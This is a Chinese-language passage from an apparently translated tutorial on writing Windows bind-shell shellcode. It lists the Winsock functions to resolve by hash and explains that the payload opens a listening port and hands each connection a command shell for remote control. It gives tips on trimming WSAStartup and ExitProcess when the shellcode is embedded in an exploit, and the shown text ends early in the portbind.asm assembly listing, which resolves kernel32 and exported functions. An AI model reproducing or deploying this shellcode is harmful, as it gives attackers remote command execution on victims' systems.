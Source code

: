     - CreateProcessA

    - ExitProcess

这个进程主要的不同是我们需要找到网络函数,它不在Kernel32.dll中.这意味着我们需要使用LoadLibraryA加载”ws2_32.dll”,它里面包含有如下我们想调用的函数：

    - WSASocketA

    - bind

    - socket

    - accept

    - WSAStartup

需要为所有这些函数创建函数hash,这已经在之前的教程中演示了。

这些网络函数中的每一个函数都将被用于安装一个监听的端口,它准备接受连接.一旦攻击者做好了连接,它们的客户端socket被连接到一个新的命令shell进程,这使得攻击者可以发送远程命令到系统中

我们需要WSAStartup和ExitProcess函数吗？

WSAStartup函数被使用于在一个进程中初始化网络服务.如果我们的”shellcodetest”程序没有网络连接那么我们需要从我们的shellcode中调用这个函数.

如果shellcode被包含在一个exploit中,它对已经初始化了网络的进程（例如网络浏览器,iis或Apache）进行exploit之后这个函数可能被忽略以让shellcode变得更小.

同样如果大小限制的严格ExitProcess函数可能也会被忽略.主进程将挂起

If either of these are taken out then you also need to update the "hash list length" within the shellcode for ws2_32 and Kernel32, respectively. This is noted in the shellcode below.

如果这些函数都被除去了,那么你需要在ws2_32和Kernel32的shellcode内各自地更新”hash list length”,记住如下shellcode

The Shellcode

```
+--------------- Start portbind.asm --------------+
;portbind.asm
[SECTION .text]
BITS 32
global _start
_start:
    jmp start_asm
;DEFINE FUNCTIONS
;FUNCTION: find_kernel32
find_kernel32:
    push esi
    xor eax, eax
    mov eax, [fs:eax+0x30]
    test eax, eax
    js find_kernel32_9x
find_kernel32_nt:
    mov eax, [eax + 0x0c]
    mov esi, [eax + 0x1c]
    lodsd
    mov eax, [eax + 0x8]
    jmp find_kernel32_finished
find_kernel32_9x:
    mov eax, [eax + 0x34]
    lea eax, [eax + 0x7c]
    mov eax, [eax + 0x3c]
find_kernel32_finished:
    pop esi
    ret
;END FUNCTION: find_kernel32
;FUNCTION: find_function
find_function:
    pushad
    mov ebp, [esp + 0x24]
    mov eax, [ebp + 0x3c]
    mov edx, [ebp + eax + 0x78]
```